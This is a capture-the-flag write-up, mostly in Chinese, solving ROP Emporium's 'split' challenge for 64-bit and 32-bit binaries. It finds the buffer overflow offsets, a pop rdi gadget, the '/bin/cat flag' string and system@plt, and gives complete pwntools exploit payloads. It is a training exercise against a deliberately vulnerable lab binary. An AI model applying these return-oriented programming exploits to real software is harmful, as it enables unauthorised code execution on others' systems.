split
via：https://ropemporium.com/challenge/split.html
In this challenge the elements that allowed you to complete the ret2win challenge are still present, they’ve just been split apart. Find them and recombine them using a short ROP chain. Click below to download the binary.
Still here
I’ll let you in on a secret; that useful string “/bin/cat flag.txt” is still present in this binary, as is a call to system(). It’s just a case of finding them and chaining them together to make the magic happen.
I’m not lying
Before we begin let’s check the permissions on our target binary. We’re employing ROP due to the presence of NX, but we’d feel pretty stupid if it turned out that none of these binaries were compiled with NX enabled. We’ll check that this isn’t the case and we can’t just JMP ESP with a little shellcode. rabin2 -I split lets us know that NX is indeed enabled:

Treasure hunting
Don’t just take my word for it, let’s check the call to system() and that useful string are actually here. Afterall if I hadn’t mentioned that they were still there how would you know where to start? Go ahead and use rabin2 or any of the tools mentioned in the beginner’s guide to locate useful strings and note their location. Now ensure that system() is imported, rabin2 or readelf are here to help.
All together now
Now that you’ve gathered the elements of your exploit you can start to piece them together, you want to call system() with the “/bin/cat flag.txt” string as the only argument. You’ll also have to start dealing with the differences between 32 & 64bit calling conventions.
Finish the job
Once you’ve planned your chain, craft a suitable solution. We’re still trying to read the contents of the flag.txt file on the imaginary remote machine. You can do the 32bit challenge with just a 2 link chain and the 64bit challenge with a 3 link chain.
x64
pwnme 函数

004007ec 48 8b 15 MOV RDX,qword ptr [stdin]
9d 08 20 00
004007f3 48 8d 45 e0 LEA RAX=>local_28,[RBP + -0x20]
004007f7 be 60 00 MOV ESI,0x60
00 00
004007fc 48 89 c7 MOV RDI,RAX
004007ff e8 1c fe CALL fgets
可以看到往 [RBP + -0x20] 可以写入 0x60 Bytes
溢出
填充长度：0x20 + 0x8 = 0x28
但是现在我们没有像 ret2win 中直接有一个函数能执行 system("/bin/cat flag.txt") 了

但是发现有 system 函数
看了一下 usefulFunction 函数

它只是调用了 system("/bin/ls")
把返回地址覆盖成它的地址也没有用啊
这里就涉及到 ROP 了
我们要自己构造一个 system("/bin/sh") 去拿一个可以交互的 shell 或者 system("/bin/cat flag") 拿到 flag
怎么能做到呢？其实学过 x64 函数调用约定的都知道
调用一个函数前要把参数放入指定的寄存器
x64 ：前六个参数要依次放入 rdi rsi rdx rcx r8 r9
可以看看 fget 的调用过程
fgets(local_28,0x60,stdin);
004007ec 48 8b 15 MOV RDX,qword ptr [stdin]
9d 08 20 00
004007f3 48 8d 45 e0 LEA RAX=>local_28,[RBP + -0x20]
004007f7 be 60 00 MOV ESI,0x60
00 00
004007fc 48 89 c7 MOV RDI,RAX
004007ff e8 1c fe CALL fgets
第一个参数是 local_28 （[RBP + -0x20]）最终被放进了 rdi
第二个参数是 0x60 放进了 esi，其实 esi 就是 rsi 的低 16 位
…………….
好了，我们现在知道了函数的调用了，现在我们构造调用 system("/bin/cat flag"); 或者 system("/bin/sh");
我们需要一些叫 gadget 的东西
我用的是 ROPgadget 来获取
Via:https://www.jianshu.com/p/1d7f0c56a323
找一下关于 rdi 的，因为 system 只有一个参数，还有就是我们的输入全是存在栈上的，从栈上拿数据需要 pop 指令，现在我们需要 pop rdi; ret
ROPgadget --binary split --only "pop|ret"
# root @ 1a8196b93dce in ~/disk/split [17:40:12]
$ ROPgadget --binary split --only "pop|ret"
Gadgets information
============================================================
0x000000000040087c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040087e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400880 : pop r14 ; pop r15 ; ret
0x0000000000400882 : pop r15 ; ret
0x000000000040087b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040087f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop rbp ; ret
0x0000000000400883 : pop rdi ; ret
0x0000000000400881 : pop rsi ; pop r15 ; ret
0x000000000040087d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005b9 : ret
找到了，地址：0x0000000000400883
寄存器找到了，我们去那里找字符串 /bin/cat flag 或者 /bin/sh 呢
一样用 ROPgadget 搜索看一下
# root @ 1a8196b93dce in ~/disk/split [17:42:15]
$ ROPgadget --binary split --string "/bin/sh"
Strings information
============================================================
# root @ 1a8196b93dce in ~/disk/split [17:42:19]
$ ROPgadget --binary split --string "/bin/cat flag"
Strings information
============================================================
0x0000000000601060 : /bin/cat flag
发现没有 /bin/sh
但是有 /bin/cat flag 位于 0x0000000000601060
好了，现在参数有了，到找函数的地址，其实这里的地址并不是真正的函数在内存中的线性地址，我们找的是函数的 plt 这个需要了解动态链接机制，我们的程序编译是用的是 动态编译，用的库函数真正的函数代码是位于 libc 里面的
这是我用 objdump 看的 system 函数，可以看到并没有 system 的代码，只有一个 jmpq , 0x601020 是 system 函数的 got 表地址
00000000004005e0 <system@plt>:
4005e0: ff 25 3a 0a 20 00 jmpq *0x200a3a(%rip) # 601020 <_GLOBAL_OFFSET_TABLE_+0x20>
4005e6: 68 01 00 00 00 pushq $0x1
4005eb: e9 d0 ff ff ff jmpq 4005c0 <_init+0x20>
我们的程序只有一个叫 plt 的地址，当我们的程序调用这个函数时程序就会通过这个地址跳到 got 表去找函数地址，如果函数是第一次被调用（system 的 got 表项为空），程序就会去解析函数在内存中真正的线性地址，然后把它填到 got 表里面，算了，就不啰嗦了这个不是重点，我们现在还没涉及 泄露 libc 基地址,就不详细讲了
现在用 objdump 看一下 system 函数的 plt
objdump -d split | less
然后输入 /system

system plt: 0x00000000004005e0
写 payload:
from pwn import *
system_plt = 0x00000000004005e0
pop_rdx_ret = 0x0000000000400883
cat_flag = 0x0000000000601060
exp = "A" * 0x28
exp += p64(pop_rdx_ret)
exp += p64(cat_flag)
exp += p64(system_plt)
print(exp)
python exp.py | ./split

pwn!
x86

一样的漏洞，废话不多说
fgets 造成缓冲区溢出
0804862f a1 80 a0 MOV EAX,[stdin]
04 08
08048634 83 ec 04 SUB ESP,0x4
08048637 50 PUSH EAX
08048638 6a 60 PUSH 0x60
0804863a 8d 45 d8 LEA EAX=>local_2c,[EBP + -0x28]
0804863d 50 PUSH EAX
0804863e e8 cd fd CALL fgets
填充长度：0x28 + 0x4 =0x2c
x86 ：函数调用是要把函数先压栈，然后 call ，参数压栈顺序是 最后一个先压栈
比如上面的 fgets(local_2c,0x60,stdin); 先压 stdin 再压 0x60 然后压 local_2c
~~在 x86 下 ROP 是要找一些 pop reg ret; push reg ret gadget~~
~~直接用 ROPgadget~~
现在是凌晨 3 点，我可能熬夜熬傻逼了，x86 下用个屁的gadget 输入的东西全放在栈上了，我还 pop push 个鬼
直接找字符串
发现有： /bin/cat flag，地址：0x0804a030

objdump -d split32 | less

然后就是获得 System 的 plt，地址：0x08048430
(其实可以用 pwntools ELF的函数直接获得的，还是算了，手动吧)
x86 的 rop 是：
调用的函数
返回地址
参数
所以
paload:
from pwn import *
system_plt = 0x08048430
cat_flag = 0x0804a030
exp = "A" * 0x2c
exp += p32(system_plt)
exp += 'AAAA'
exp += p32(cat_flag)
print(exp)

运行 sudo dmesg -c 看到了吗

pwn！
最后一条
[30242.626114] split32[4359]: segfault at 41414141 ip 0000000041414141 sp 00000000ffdcc904 error 14
执行完 system("/bin/cat flag"); 程序跳到了 0x41414141 去执行
证明了函数调用的栈布局
我们的 payload 中
exp = "A" * 0x2c
exp += p32(system_plt) #system
exp += 'AAAA' #返回地址
exp += p32(cat_flag) #参数